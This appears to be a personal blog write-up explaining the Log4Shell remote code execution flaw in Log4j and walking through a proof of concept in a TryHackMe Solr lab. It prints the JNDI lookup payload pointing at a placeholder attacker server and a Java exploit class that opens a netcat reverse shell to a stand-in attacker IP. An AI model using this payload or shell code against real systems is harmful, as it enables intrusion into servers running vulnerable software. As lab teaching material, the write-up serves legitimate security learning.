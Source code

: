 # Introduction

Log4j is a logging framework for Java. A logging framework is better than just printing the logs with a print statement because you don't need to comment the print statements. You just need to maintain a configure file which tells what type of logs to store and write the code with different log levels as:

```
logging.ERROR("error");
logging.WARN("warning");
```

Now a logger logs everything. Every interactions with the application along with the time and ip address. But the vulnerability in log4j happens when the attacker can craft or manipulate what is logged. Let say it is logging the username and the username is like this

![](/blogs/log4j/1.jpg)

Now that username is the actual format used for RCE using log4j. The exploit is:

```
${jndi:ldap://ATTACKER-SERVER/x}
```

The exploit can be broken into:

1. log4j parses the command and sends a ldap request to ATTACKER-SERVER via jndi.
2. The first ATTACKER-SERVER then points to another attacker controlled server which is hosting a malicious Java code.
3. The victim requests the malicious code and executes it, leading to RCE.

The process can be visualized with the following figure by [GovCERT](https://www.govcert.ch/blog/zero-day-exploit-targeting-popular-java-library-log4j/)
![](/blogs/log4j/2.png)

The vulnerability was first reported to Apache on 24th November 2021 and publicly announced on 9th December 2021. Many large organizations are affected by this CVE which includes Amazon, Google, Tencent and others. You can find the list [here](https://github.com/YfryTchsGD/Log4jAttackSurface)

# Proof of Concept

We will be using the TryHackMe Solr room for this. The victim machine is running Apache Solr 8.11.0, which has this vulnerability. First I am creating a ldap Reference server. The Reference server will point to another server which will serve the malicious java code. Both the server are running on same machines but different ports.

For ldap reference server, we will use [marshalsec](https://github.com/mbechler/marshalsec). It will serve on port 1389 and point to port 8000. Here is the screenshot
![](/blogs/log4j/3.png)

Now in port 8000, the compiled class of the following java code is served.
{{< highlight java >}}
public class Exploit {
static {
try {
java.lang.Runtime.getRuntime().exec("nc -e /bin/bash YOUR.ATTACKER.IP.ADDRESS 9999");
} catch (Exception e) {
e.printStackTrace();
}
}
}
{{< /highlight >}}
The code just sends a reverse shell to the attacker.

Now as we are interacting with the victim server using curl and passing the exploit as a parameter, it is getting executed and we are getting the reverse shell from the server.

![](/blogs/log4j/4.gif)

# Conclusion

The CVE have been patched in log4j update by disabling jndi by default. [HuntresLabs scanner](https://log4shell.huntress.com/) can be used to check for Log4Shell vulnerability in your app.

Some of the resources I used to learn about this:

- https://www.huntress.com/blog/rapid-response-critical-rce-vulnerability-is-affecting-java
- https://www.hackthebox.com/blog/Whats-Going-On-With-Log4j-Exploitation
- TryHackMe - Solar, exploiting log4j Room
